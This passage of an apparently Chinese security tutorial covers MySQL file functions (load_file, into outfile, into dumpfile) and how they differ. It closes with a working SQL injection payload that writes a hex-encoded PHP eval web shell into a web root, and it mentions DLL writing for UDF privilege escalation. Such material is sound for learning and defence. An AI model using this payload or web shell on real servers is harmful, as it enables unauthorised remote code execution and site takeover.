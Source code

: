 ![img](https://i-blog.csdnimg.cn/blog_migrate/729f891f6f7b6b77b5db8667c5cc10a0.png#pic_center)

```
load_file()和load data infile读取文件可以直接读取，也可以新建一个表，读取文件为字符串形式插入表中，然后读出表中数据。
常见的读取的敏感数据：https://www.cnblogs.com/Loong716/p/9891152.html
```

##### 2）文件写入函数

- `into outfile`

  ```
  # 语法格式：
  SELECT column1,column2,...
  FROM table_name
  WHERE condition        
  INTO OUTFILE 'file_path'         # 指定文件所在的路径
  FIELDS TERMINATED by 'char';     # 每一条记录的数据之间默认以 Tab 分隔，也可使用 	FIELDS TERMINATED 参数指定分隔符
  
  ```

  ![img](https://i-blog.csdnimg.cn/blog_migrate/75c1ff1e06940bc386f2ae5a659c8c48.png)

`● into dumpfile`

```
# 语法格式
SELECT column1, column2, ...
FROM table_name
INTO DUMPFILE 'file_path'
[options]

```

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/a821ea1cc403acb8edfa1ea545f3bf3f.png)

```
into outfile和into dumpfile的区别

● 导出的行数不一样。outfile函数可以导出（导出数据库数据，写入文件）多行数据；而dumpfile只能导出一行数据
● 是否转义输出。outfile对导出内容中的\n等特殊字符进行了转义，并且在文件内容的末尾增加了一个新行；而dumpfile对文件内容是原意写入，未做任何转移和增加。所以基于此在UDF提权中一般使用dumpfile进行dll文件写入
● 是否允许二进制文件。outfile后面不能接0x开头或者char转换以后的路径，只能是单引号路径。这个问题在php注入中很棘手，因为会自动将单引号转义成\',请千万注意；但dumpfile，后面的路径可以是单引号、0x、char转换的字符，但是路径中的斜杠是/而不是\。因为dumpfile允许写二进制文件

```

##### 3）基于Mysql写入shell的方式

- **基于文件写入函数`into outfile`和`into dumpfile`写入shell**

```
# 将一句话木马"<?php eval($_REQUEST[1]);?>"通过十六进制编码写入网站根目录
?id=-3')) union select 1,0x3c3f706870206576616c28245f524551554553545b315d293b3f3e,3 into outfile 'C:\\Users\\Administrator.WIN2012\\Desktop\\phpStudy\\WWW\\outfile.php' --+

```
